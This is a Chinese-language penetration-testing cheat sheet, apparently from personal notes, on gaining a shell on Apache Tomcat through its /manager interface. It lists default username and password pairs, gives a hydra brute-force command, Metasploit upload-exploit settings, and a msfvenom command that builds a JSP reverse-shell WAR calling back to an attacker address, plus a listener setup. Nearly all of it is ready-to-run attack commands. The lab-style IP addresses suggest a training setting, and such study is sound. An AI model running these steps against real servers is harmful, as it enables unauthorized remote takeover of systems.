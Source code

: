 # Apache Tomcat 漏洞利用

---

[参考链接1](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

[参考链接2](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

**通过对apache tomcat的枚举和利用，我们可以从中找出漏洞，然后得到shell**

- 在这里列举出两种情况，第一种情况是哦我们能够访问到/manager目录，第二种情况是我们不能访问到该目录

## 枚举

- 在 Tomcat6 之前的某些版本中，我们可以使用msf枚举用户：

```
msf> use auxiliary/scanner/http/tomcat_enum
```

- 常见的得到的用户名与密码是：

    - admin:admin

    - tomcat:tomcat

    - admin:<NOTHING>

    - admin:s3cr3t

    - tomcat:s3cr3t

    - admin:tomcat

- 当然，我们也可以使用hydra进行暴力破解

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

- 得到了用户名与密码后，我们就可以登录到 /manager/html下传输反向shell

## RCE

- 我们可以使用msf，当然有时候这个并不起效果

```
use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 
set RPORT 8080
set HttpPassword 
set HttpUsername 
set LHOST 
exploit
```

- 当我们使用msf没有用时，我们可以自己制造一个shell传输到网页上
- 创建一个msfvenom payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

- 使用msf的监听模块进行监听（这有时候会收不到反弹回来的shell），或者使用nc监听端口

```
use exploit/multi/handler
show options
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.10
set LPORT 9999
exploit
```

- 完成这些后，我们将shell文件传输到web上，如果我们不能访问/manager/，那么就无法进行下一步
- 点击上传的文件在web中的地址，如果监听器没能收到shell，我们可以解压缩之前使用msfvenom创建的 .war 文件，将里面的  .jsp 文件上传，并且访问其网络链接

[点击该链接，说的很全面，但是要按情况选择](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

